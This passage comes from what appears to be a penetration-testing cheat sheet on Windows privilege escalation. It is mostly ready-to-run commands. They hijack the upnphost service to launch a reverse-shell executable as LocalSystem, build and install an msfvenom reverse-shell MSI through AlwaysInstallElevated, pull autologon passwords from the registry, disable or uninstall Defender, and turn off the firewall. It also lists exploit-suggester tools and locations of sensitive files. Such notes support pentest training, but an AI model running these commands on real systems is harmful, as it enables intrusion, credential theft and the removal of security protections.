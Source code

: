     -  `sc config SSDPSRV start= auto`
    -  `sc qc SSDPSRV`
    -  `net start SSDPSRV`
    -  `sc config upnphost binpath= "C:\{abs_path_for_reverse_shell_exe}`
    -  `sc config upnphost obj= ".\LocalSystem" password= ""`
    -  `sc qc upnphost`
    -  `net start upnphost`
### Bypass UAC
- [CVE-2019-1388](http://blog.leanote.com/post/snowming/38069f423c76)
### Registry
- AlwaysInstallElevated
    - If both set to 1
        - `reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
        - `reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    - Can install file with
        - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f msi -o shellx64.msi`
        - `msiexec /quiet /i shellx64.msi`
    - But need to check where can install (AppLocker)
        - `Get-AppLockerOolicy -Effective | Select -Expandproperty RuleCollections`
- Auto login
    - `reg query HKCU\Software\Microsoft\Windows NT\Currentversion\WinLogon /v DefaultUserName`
    - `reg query HKCU\Software\Microsoft\Windows NT\Currentversion\WinLogon /v DefaultPassword`
### Defender / Firewall
- 64 bit Powershell
	- `%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe`
-  Disable Realtime Monitoring 
	-  `Set-MpPreference -DisableRealtimeMonitoring $true`
-  Uninstall Defender
	-  `Uninstall-WindowsFeature -Name Windows-Defender –whatif`
	-  `Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet`
-  Turn off firewall
	- `Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`
- Check Defender Status
    - `powershell -c Get-MpComputerStatus`
        - Check `AntivirusEnabled` is `True` or `False`
### Check vulnerability
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	- `systeminfo`
		- Run in target machine and save to txt file
    - Dependency
        - `pip install xlrd==1.2.0`
	- `windows-exploit-suggester.py --update`
		- Get new database
	- `windows-exploit-suggester.py --database {Database file} --systeminfo {systeminfofile}`
- [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)
	- `systeminfo`
	- `python3 wesng.py --update`
	- `python3 wesng.py {systeminfofile}`
### Sensitive data
- PowerShell History Path
	- `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt `
- User Home
    - Desktop
    - Document
    - Download
- `C:\Windows\System32\drivers\etc\hosts`
### Process
- `netstat -ano`
    - Open Port
